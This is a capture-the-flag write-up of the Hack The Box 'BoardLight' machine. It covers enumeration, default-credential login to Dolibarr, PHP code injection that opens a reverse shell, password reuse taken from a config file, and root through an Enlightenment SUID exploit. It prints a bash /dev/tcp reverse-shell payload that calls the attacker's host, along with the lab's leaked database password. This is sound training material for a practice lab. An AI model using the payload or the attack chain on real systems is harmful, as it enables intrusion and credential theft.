## Table of Contents

## Reconnaisance

We of course start out with our trusty `nmap` scan.

```bash
nmap -sC -sV -oA HTB/Machines/BoardLight/boardlight <ip_address>
```



This tells us that we have only port 22 and 80 open. Port 22 is usually a nothing burger, so I always check out port 80 first.

## Enumeration

### Port 80 - HTTP (Apache httpd)

**Service:** Apache httpd
**Version:** 2.4.41

I've already checked this version on another box and it wasn't vulnerable so I don't even bother here. Normally, you would want to at least check the version, but since I had already checked it within the last week or so I completed this machine, I didn't worry about it.

If you navigate to the IP address of your machine, you're greeted by the webpage for Boardlight.



There's a few things on the page, but most of the links go nowhere or redirect to the root `/`. However, there is a contact form.



Good to have in our back pocket but I start running `gobuster` before doing anything else.



We get a few PHP pages back, so this tells us the site is running PHP. Good to know. Not much in the results than what we mostly already knew from just clicking around the site. So this doesn't really help.

If we analyze the Page Source, we see that there's a commented out path for `/portfolio.php`. If we navigate to it, we get a "File not found" error. Oh well. So we'll continue on with our enumeration.


Taking a closer look at the entire webpage reveals in the footer a copyright notice for "Board.htb". This seems promising. If we add the IP address for the machine and route to `board.htb` in our `/etc/hosts` file, we can still access the webpage, but we can also do more enumeration with `gobuster` using the `vhost` option.



That's more like it. We can see that there's one vhost on the machine at `crm.board.htb`.

```bash
gobuster vhost --domain board.htb --append-domain -u <ip_address> -w /usr/share/wordlists/seclists/Discovery/DNS/subdomain-top1million-11000.txt -t 100
```

Once we add this result to `/etc/hosts` for the same IP address, we can navigate to it and...



Without even really thinking about it, I immediately tried, `admin:admin` and it worked.




Looking around, we get the following information.

**Service:** Dolibarr
**Version:** 17.0.0

We can see from the "My Dashboard" where we currently are that we still have some access denied and certain items in the left sidebar are greyed out. However, there is a Tools and Websites button in the top navbar. I like the Websites one so I head over there first, which leads us to exploitation.

## Exploitation

After some time Googling (because I was confident this was the attack vector), I stumbled on [this](https://starlabs.sg/advisories/23/23-4197/) page which outlines a CVE for Dolibarr when creating a website. Well, funny - that's what I wanted to do! The CVE description is as follows:

```
Improper input validation in Dolibarr ERP CRM <= v18.0.1 fails to strip certain PHP code from user-supplied input when creating a Website, allowing an attacker to inject and evaluate arbitrary PHP code.
```

We'll work on this in the next section, which is obtaining foothold.

### Foothold

The article from above leads me to think that we can inject some PHP shell into the header that will then be read and executed. And after quite a bit of messing around with creating a website, looking at what options are available to me, I finally manage to inject a PHP shell I got from [HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux#php) and have it be executed. As soon as I entered the shell and clicked Save on the page, I got my shell in my listener.

```php
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.14.18/1337 0>&1'"); ?>
```



We can run `wget` and `curl` on the target, so we can run a Python web server and grab `linpeas` from our machine and upload it to the target. We have to run `chmod u+x linpeas.sh` but then we can run it as normal.

```bash
chmod u+x linpeas.sh && ./linpeas.sh | tee linpeas.out
```

Running `linpeas`, we see the list of users and groups and it highlights `larissa`. Seems like this would be the next likely target.



If we review the `linpeas` output, we see there are some config files. One such config file is buried deep in the home directory for `www-data`. The file is located at `~/html/crm.board.htb/htdocs/conf/conf.php`.

If we `cat` that out


^entire config not shown

Inside this file, we can find what looks like the Dolibarr config for the root, `crm.board.htb`. We see a user and a password, `dolibarrowner:serverfun2$2023`. So now, I want to take a step back and review what we have.

### Privilege Escalation

#### larissa

We are currently logged in as `www-data` on the target machine. We've found the Dolibarr configuration file that must have been configured by one of the two other users on this machine. Under normal circumstances, whoever set this up _hopefully_ wouldn't have reused this password. But in a CTF environment (really, even in a normal one too), it's good to at least test.

So if we take this password and try to SSH as larissa onto the box, it works!





Bad larissa, bad. Don't reuse passwords! Especially ones stored in cleartext in config files on a server somewhere.

We can start by running `linpeas` again and if we review the output, it tells us there's an unknown SUID binary running. Initially, I wasn't too sure what this was and I kept looking around. I didn't even look into it at first. But after some digging and digging, I found nothing so looked into what this was.



#### root

Enlightenment is a Linux Windows Manager and searching for "Enlightenment CVE", we get a [zero-day exploit POC](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main). All we need to do is download this file (I cloned the repo) on our machine, serve it up, download it on the target and run it.



And that's a wrap.



## Conclusion

I _really_ enjoyed this machine. It really put your enumeration skills to the test and pays off really well in the end. The privilege escalation from `larissa` to `root` is a bit trivial but it's always cool to see exploits like this and how they just automagically take you from the user to root.
